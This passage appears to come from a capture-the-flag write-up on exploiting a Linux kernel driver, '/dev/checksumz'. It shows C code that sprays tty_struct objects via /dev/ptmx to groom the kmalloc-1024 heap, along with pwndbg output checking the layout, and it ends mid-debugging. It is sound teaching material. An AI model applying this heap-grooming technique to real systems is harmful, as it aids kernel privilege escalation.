 We can read and write to those objects since we can just offset via `lseek` by
0x400 steps. We want to organize the heap in a way that we know which objects
will be allocated next to our `checksum_buffer` struct. Looking for
`kmalloc-1024` at [2] we see that there is `tty_struct` that can be allocated
by opening `/dev/ptmx`.

Below is the code to spray the heap with `tty_structs` which will be placed at
`kmalloc-1024`. We allocate objects before too, to defragment the heap's freelist
and to ensure that it'll work if the heap grows backwards or forwards.

```c
    // spray sandwich below:
    // the sprayed objs are tty_struct
    // ref: https://elixir.bootlin.com/linux/v6.10.10/source/include/linux/tty.h#L188
    //
    // spray before (bread)
    int spray[SPRAY_SZ];
    for(int i = 0; i < SPRAY_SZ / 2; i++) {
        spray[i] = open( "/dev/ptmx" , O_RDONLY | O_NOCTTY);
        if(spray[i] == -1) {
            __asm__("int3");
        }
    }

    // object with overflow (cheese)
    int fd = open("/dev/checksumz", O_RDWR);

    // spray after (bread)
    for(int i = SPRAY_SZ / 2; i < SPRAY_SZ; i++) {
        spray[i] = open( "/dev/ptmx" , O_RDONLY | O_NOCTTY);
        if(spray[i] == -1) {
            __asm__("int3");
        }
    }
```

After the code above is executed the heap will look like the diagram below:

```goat
┌──────┬────────────┬─────────────────┬────────────┐
│ data │ tty_struct │ checksum_buffer │ tty_struct │
├──────┼────────────┼─────────────────┼────────────┤
│ addr │ ?          │ ? + 0x400       │ ? + 0x800  │
└──────┴────────────┴─────────────────┴────────────┘
```

We'll verify our understanding of the system by debugging it with gdb again.
When we run those commands below, `rbx` is holding the value of a address of a
`checksum_buffer`.

```bash
pwndbg> p/x $rbx
$2 = 0xff11000004962400

pwndbg> telescope 0xff11000004962400+0x400
00:0000│  0xff11000004962800 ◂— 0x7e00000001
01:0008│  0xff11000004962808 ◂— 0
02:0010│  0xff11000004962810 —▸ 0xff1100000414b240 ◂— 0x101
03:0018│  0xff11000004962818 —▸ 0xff110000048edc00 —▸ 0xff110000048edc50 ◂— 0
04:0020│  0xff11000004962820 —▸ 0xffffffff82289480 (ptm_unix98_ops) —▸ 0xffffffff8163dfa0 (ptm_unix98_lookup) ◂— endbr64
05:0028│  0xff11000004962828 —▸ 0xff1100000459b050 —▸ 0xffffffff82bd14a0 (n_tty_ops) —▸ 0xffffffff82722080 (.LC3+121) ◂— 0x7264007974745f6e /* 'n_tty' */
06:0030│  0xff11000004962830 ◂— 0
07:0038│  0xff11000004962838 ◂— 0

pwndbg> telescope 0xff11000004962400+0x400*3
```